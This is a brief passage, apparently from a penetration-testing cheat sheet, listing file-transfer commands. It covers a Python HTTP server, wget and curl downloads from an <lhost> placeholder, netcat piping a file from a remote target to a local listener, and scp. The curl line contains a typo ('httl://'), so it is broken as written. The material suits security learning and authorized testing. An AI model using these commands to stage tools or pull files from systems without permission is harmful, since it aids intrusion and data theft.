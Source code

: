 ## File Transfer

Web Server:
```
python2 -m SimpleHTTPServer 8000
python3 -m http.server 8000

wget http://<lhost>:8000/<file>
curl httl://<lhost>:8000/<file> -O
```

Netcat
```
nc -nvlp <lport> > file         # local machine
nc -vn <lhost> <lport> < file   # remote machine
```

SCP
```
scp <user>@<rhost>:/path
```
